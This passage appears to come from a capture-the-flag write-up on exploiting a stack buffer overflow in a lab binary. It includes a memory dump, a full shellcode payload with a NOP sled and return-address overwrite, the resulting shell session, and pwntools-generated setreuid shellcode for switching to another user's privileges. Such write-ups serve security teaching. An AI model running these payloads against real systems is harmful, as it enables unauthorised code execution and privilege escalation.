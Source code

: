 ~~~
0x7fffffffe318:	0x00400564	0x00000000	0x00000000	0x00000000
0x7fffffffe328:	0xc7dc72b8	0x7f14507a	0x00400450	0x00000000
0x7fffffffe338:	0xffffe3d0	0x00007fff	0x00000000	0x00000000
0x7fffffffe348:	0x00000000	0x00000000	0x0a9c72b8	0x80ebaf05
0x7fffffffe358:	0x935872b8	0x80ebbfb2	0x00000000	0x00000000
0x7fffffffe368:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe378:	0xffffe3f0	0x00007fff	0xf7ffe130	0x00007fff
0x7fffffffe388:	0xf7de7656	0x00007fff	0x00000000	0x00000000
0x7fffffffe398:	0x00000000	0x00000000	0x00000000	0x00000000
~~~

Let's take any address between the NOP sled and the shellcode (e.g. `0x7fffffffe288`). Here is the final payload:

~~~
$ ./buffer-overflow $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + '\x88\xe2\xff\xff\xff\x7f')")
~~~

When executed, the programs eventually spawns a shell.

~~~
[user1@ip-10-10-12-188 overflow-3]$ ./buffer-overflow $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + '\x88\xe2\xff\xff\xff\x7f')")
Here's a program that echo's out your input
������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1����������������������������
sh-4.2$ whoami
user1
sh-4.2$ cat secret.txt 
cat: secret.txt: Permission denied
sh-4.2$ 
~~~

As you can see above, we are not allowed to access the secret though, because we are not user2.

**setreuid**

Let's use pwntools to generate a prefix to our shellcode to run SETREUID:

~~~
$ pwn shellcraft -f d amd64.linux.setreuid 1002
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
$ python
>>> len('\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05')
14
~~~

Our payload now looks like this:

~~~
┌───────────────────┬────────────────────┬────────────────────┬────────────────────┬────────────────────┐
│ NOP sled (90)     │  setreuid (14)     │ shellcode (40)     │ random chars (8)   │ Memory address (6) │
└───────────────────┴────────────────────┴────────────────────┴────────────────────┴────────────────────┘
total length = 90 + 14 + 40 + 8 + 6 = 158
~~~
